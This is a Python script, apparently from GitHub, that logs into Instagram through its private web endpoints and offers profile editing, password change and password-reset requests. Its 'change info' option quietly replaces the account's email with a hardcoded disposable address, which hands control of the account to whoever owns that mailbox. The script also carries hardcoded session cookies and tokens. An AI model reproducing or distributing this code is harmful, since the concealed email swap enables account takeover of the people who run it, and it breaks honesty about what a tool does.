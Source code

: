 # login.py
About instagram


import requests
from user_agent import generate_user_agent
from datetime import datetime
import pyfiglet

# = = = = = = = = = = = =

Z = '\033[1;31m' #احمر
X = '\033[1;33m' #اصفر
Z1 = '\033[2;31m' #احمر ثاني
F = '\033[2;32m' #اخضر
A = '\033[2;34m'#ازرق
C = '\033[2;35m' #وردي
B = '\033[2;36m'#سمائي
Y = '\033[1;34m' #ازرق فاتح

# = = = = = = = = = = = =


logo = pyfiglet.figlet_format('login insta')
print(A+logo)
print(Z1+"___________________________")
print(Y+"by m_h8i")
print(X+"MOHAIMN ALAMERY")
print(Z1+"___________________________")

user = input(F+'username : ')
pasw = input(Z1+'password : ')
url = "https://www.instagram.com/accounts/login/ajax/"

head = {
    'accept':'*/*',
    'accept-encoding':'gzip,deflate,br',
    'accept-language':'en-US,en;q=0.9,ar;q=0.8',
    'content-length':'269',
    'content-type':'application/x-www-form-urlencoded',
    'cookie':'ig_did=77A45489-9A4C-43AD-9CA7-FA3FAB22FE24;ig_nrcb=1;csrftoken=VOPH7fUUOP85ChEViZkd2PhLkUQoP8P8;mid=YGwlfgALAAEryeSgDseYghX2LAC-',
    'origin':'https://www.instagram.com',
    'referer':'https://www.instagram.com/',
    'sec-fetch-dest':'empty',
    'sec-fetch-mode':'cors',
    'sec-fetch-site':'same-origin',
    'user-agent': generate_user_agent(),
    'x-csrftoken':'VOPH7fUUOP85ChEViZkd2PhLkUQoP8P8',
    'x-ig-app-id':'936619743392459',
    'x-ig-www-claim':'0',
    'x-instagram-ajax':'8a8118fa7d40',
    'x-requested-with':'XMLHttpRequest',
}
time_now = int(datetime.now().timestamp())
data = {
    'username': user,
    'enc_password': f'#PWD_INSTAGRAM_BROWSER:0:{time_now}:{pasw}',
    'queryParams': {},
    'optIntoOneTap': 'false'
}

login = requests.post(url,headers=head,data=data)

if 'userId' in login.text:
    co = login.cookies
    coo = co.get_dict()
    csrf = coo['csrftoken']
    cookie = f"sessionid={coo['sessionid']};ds_user_id={coo['ds_user_id']};csrftoken={coo['csrftoken']};"
    pass
else:
    print(f'false information')
    exit()


ask = input(B+"[1] Change info \n[2] change password \n[3] rest password \n\n[+] Enter Your Option : ")

if ask == '1':
    first = input('name : ')
    usnam = input('user : ')
    biooo = input('Bioo : ')

    url2 = 'https://www.instagram.com/accounts/edit/'
    hed2 = {
        'accept':'*/*',
        'accept-encoding':'gzip,deflate,br',
        'accept-language':'en-US,en;q=0.9,ar;q=0.8',
        'content-length':'269',
        'content-type':'application/x-www-form-urlencoded',
        'cookie': cookie,
        'origin':'https://www.instagram.com',
        'referer':'https://www.instagram.com/',
        'sec-fetch-dest':'empty',
        'sec-fetch-mode':'cors',
        'sec-fetch-site':'same-origin',
        'user-agent': generate_user_agent(),
        'x-csrftoken': csrf,
        'x-ig-app-id':'936619743392459',
        'x-ig-www-claim':'0',
        'x-instagram-ajax':'8a8118fa7d40',
        'x-requested-with':'XMLHttpRequest',
    }
    dat2 = {
        'first_name': first,
        'email': 'b2dfe8654b@firemailbox.club',
        'username': usnam,
        'phone_number': '',
        'biography': biooo,
        'external_url': '',
        'chaining_enabled': 'on'
    }
    change = requests.post(url2,headers=hed2,data=dat2)
    if '"status":"fail"' in change:
        print('Not Changed !!')
        exit()
    elif '{"status":"ok"}' in change:
        print('Changed Done')

if ask =='2':
    url3 = 'https://www.instagram.com/accounts/password/change/'
    hed3 = {
        'accept':'*/*',
        'accept-encoding':'gzip,deflate,br',
        'accept-language':'en-US,en;q=0.9,ar;q=0.8',
        'content-length':'269',
        'content-type':'application/x-www-form-urlencoded',
        'cookie': cookie,
        'origin':'https://www.instagram.com',
        'referer':'https://www.instagram.com/',
        'sec-fetch-dest':'empty',
        'sec-fetch-mode':'cors',
        'sec-fetch-site':'same-origin',
        'user-agent': generate_user_agent(),
        'x-csrftoken': csrf,
        'x-ig-app-id':'936619743392459',
        'x-ig-www-claim':'0',
        'x-instagram-ajax':'8a8118fa7d40',
        'x-requested-with':'XMLHttpRequest',
    }
    new_pass = input('new password : ')
    dat3 = {
        'enc_old_password': f'#PWD_INSTAGRAM_BROWSER:0:{time_now}:{pasw}',
        'enc_new_password1': f'#PWD_INSTAGRAM_BROWSER:0:{time_now}:{new_pass}',
        'enc_new_password2': f'#PWD_INSTAGRAM_BROWSER:0:{time_now}:{new_pass}',
    }
    x = requests.post(url3,headers=hed3,data=dat3).text
    if '{"status":"ok"}' in x:
        print('done changed')
    else:
        print('some error')
        exit()

if ask == '3':
    rest = input('enter user or email : ')
    url4 = 'https://www.instagram.com/accounts/account_recovery_send_ajax/'
    hed4 = {
        'accept':'*/*',
        'accept-encoding':'gzip,deflate,br',
        'accept-language':'en-US,en;q=0.9,ar;q=0.8',
        'content-length':'269',
        'content-type':'application/x-www-form-urlencoded',
        'cookie':'ig_did=77A45489-9A4C-43AD-9CA7-FA3FAB22FE24;ig_nrcb=1;csrftoken=VOPH7fUUOP85ChEViZkd2PhLkUQoP8P8;mid=YGwlfgALAAEryeSgDseYghX2LAC-',
        'origin':'https://www.instagram.com',
        'referer':'https://www.instagram.com/',
        'sec-fetch-dest':'empty',
        'sec-fetch-mode':'cors',
        'sec-fetch-site':'same-origin',
        'user-agent': generate_user_agent(),
        'x-csrftoken':'VOPH7fUUOP85ChEViZkd2PhLkUQoP8P8',
        'x-ig-app-id':'936619743392459',
        'x-ig-www-claim':'0',
        'x-instagram-ajax':'8a8118fa7d40',
        'x-requested-with':'XMLHttpRequest',
    }
    dat3 = {
        'email_or_username': rest,
        'recaptcha_challenge_field': '',
        'flow': '',
        'app_id': '',
        'source_account_id': ''
    }
    z = requests.post(url4,headers=hed4,data=dat3).text
    if 'We sent an email to' in z:
        print(f'done send rest to {rest}')
    else:
        print('error in send rest')
        exit()
